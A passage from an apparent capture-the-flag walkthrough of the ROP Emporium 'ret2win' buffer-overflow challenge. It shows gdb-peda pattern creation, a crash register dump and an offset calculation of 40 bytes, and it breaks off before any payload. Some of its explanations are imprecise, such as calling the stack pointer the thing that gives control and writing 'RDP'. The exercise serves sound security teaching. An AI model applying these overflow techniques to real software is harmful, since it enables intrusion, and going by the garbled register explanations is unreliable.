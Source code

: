It looks like our data has overwritten the RBP (Base Pointer) and the RSP (Stack Pointer), but not the RIP (Instruction Pointer). This means we should be able to take control of execution by controlling the RSP. Let's see if we can more accurately guess where in the data we provided this address would be. To do this we can create a pattern of data then execute the program using that pattern. When the program crashes again, we can check what the RSP is, and cross reference it, with the pattern to identify the offset. Luckily we can use Peda to do most of the work for us:

1. create the pattern
```
gdb-peda$ pattern_create 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
```

2. run the program using the pattern
```
gdb-peda$ run < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")')
Starting program: /home/user/Downloads/ropemporium/ret2win < <(python -c 'print("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL")')
ret2win by ROP Emporium
x86_64

<REDUCED FOR BREVITY>
[----------------------------------registers-----------------------------------]
RAX: 0xb ('\x0b')
RBX: 0x0 
RCX: 0x7ffff7ee4504 (<__GI___libc_write+20>:	cmp    rax,0xfffffffffffff000)
RDX: 0x7ffff7fb78c0 --> 0x0 
RSI: 0x7ffff7fb67e3 --> 0xfb78c0000000000a 
RDI: 0x0 
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffe138 ("AA0AAFAAbAA1AAGA\233\340\341\367\377\177")   <-- Our pattern overwrote RDP with AA0AAFAAbAA1AAGA
RIP: 0x400755 (<pwnme+109>:	ret)
R8 : 0x7ffff7fbc500 (0x00007ffff7fbc500)
R9 : 0x7ffff7fbc500 (0x00007ffff7fbc500)
R10: 0xfffffffffffff40e 
R11: 0x246 
R12: 0x4005b0 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffe220 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
```

3. check the offset of the pattern using pattern_offset
```
gdb-peda$ pattern_offset AA0AAFAAbAA1AAGA
AA0AAFAAbAA1AAGA found at offset: 40
```

pattern_offset identified that the offset was 40 bytes, this means we should be able to control the RSP by providing 40 bytes + 8 bytes for the address of RSP. Let's double check this is correct by using python:
